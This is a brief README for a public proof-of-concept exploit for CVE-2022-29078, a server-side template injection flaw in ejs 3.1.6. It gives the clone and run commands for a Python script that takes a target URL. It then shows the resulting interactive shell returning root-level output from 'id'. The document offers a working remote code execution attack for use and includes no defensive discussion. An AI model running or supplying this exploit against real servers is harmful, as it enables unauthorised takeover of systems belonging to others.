 # CVE-2022-29078
Simple PoC for CVE-2022-29078 (vuln ejs 3.1.6)

## Usage
```
git clone https://github.com/chuckdu21/CVE-2022-29078.git
cd CVE-2022-29078
python3 CVE-2022-29078.py <URL>
```
A prompt will appear to execute commands

```
$ id
uid=0(root) gid=0(root) groupes=0(root)
```
